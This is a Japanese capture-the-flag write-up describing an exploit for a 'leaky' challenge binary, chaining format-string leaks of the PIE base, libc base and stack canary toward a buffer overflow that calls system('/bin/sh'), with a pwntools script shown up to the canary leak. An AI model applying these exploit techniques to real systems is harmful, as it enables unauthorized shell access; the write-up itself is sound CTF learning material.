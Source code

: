 という事で、以下のものをリークさせた後、BOF で `system("/bin/sh")` を実行する流れで行きましょう！

1. ベースアドレス
2. libc ベースアドレス
3. Canary

### ベースアドレスのリーク

PIE が有効なので、libc ベースアドレスリークで GOT のアドレスを知るためにベースアドレスが必要です。

スタック上にリターンアドレスが置かれているので、```%14$p``` でリークした後、バイナリ内のオフセットを引けば OK です。

### libc ベースアドレスのリーク

`system` を呼び出すために libc ベースアドレスが必要です。
こちらは `%n$s` で n 番目のアドレスの先を読み取ってくれるのを利用して `fprintf@GOT` の中身、つまり `fprintf` の実際のアドレスをリークしてから libc 内の `fprintf` のオフセットを引く事で求められます。
なお、libc は与えられていないのでリークしたアドレスを利用してから [libc database](https://libc.blukat.me/) で照会しましょう。

64bit でアドレスに NULL を含むため、アドレスは後置しないと出力が途中で止まる事に注意しましょう。
`%10$sAAA[fprintf@GOT's address]` でリークできます。

なぜか `strlen@GOT` とかだと上手く行きませんでした。うーむ

### Canary のリーク

SSP が有効なので、BOF しても Canary が違うと強制終了させられます。という事で先に Canary をリークしましょう。これもスタック上に乗っているので `%12$p` でリークできます。

### Attack!!!

準備は整ったので、後は BOF を利用して `system("/bin/sh")` を実行するだけです。libc 内に `"/bin/sh"` が入っている事を利用すると行けます。

```py
from pwn import *

elf=context.binary=ELF("./leaky")
LOCAL=True
if LOCAL:
    p=process("./leaky")
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    p=remote("ctf-metared-2021.ua.pt",29722)
    libc=ELF("./libc")

# Stage1: Leak base address
payload=b"%14$p"
p.sendlineafter("User: ",payload)
p.recvuntil("user: ")
base_addr=int(p.recvline(),16)-0x14ba
print(hex(base_addr))
p.sendline("y")

# Stage2: Leak libc base address
payload=b"%10$sAAA"+p64(elf.got["fprintf"]+base_addr)
p.sendlineafter("User: ",payload)
p.recvuntil(b"user: ")
fprintf_addr=u64(p.recv(6).ljust(8,b"\x00"))
libc_base=fprintf_addr-libc.symbols["fprintf"]
print(hex(libc_base))
p.sendline("y")

# Stage3: Leak Canary Value
payload=b"%12$p"
p.sendlineafter("User: ",payload)
p.recvuntil(b"user: ")
canary=int(p.recvline(),16)
```